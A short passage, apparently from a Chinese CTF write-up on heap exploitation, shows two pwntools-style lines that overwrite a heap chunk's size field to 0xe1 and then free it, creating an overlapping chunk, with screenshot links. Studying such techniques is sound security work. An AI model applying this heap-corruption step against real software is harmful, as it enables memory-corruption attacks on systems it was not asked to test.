 ```bash
add(0x60,6,p64(0)*3+p64(0xe1))
```

修改 0x555555757070 处堆块的大小为 0xe1

[![](assets/1701612416-2d7f34c80aff5566c05442451805e87a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170150-4100c7e2-14c9-1.png)

```bash
delete(1)
```

成功扩展堆

[![](assets/1701612416-9b1edf2bc42d693a5afb935d93e0ebc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170209-4c12db0c-14c9-1.png)
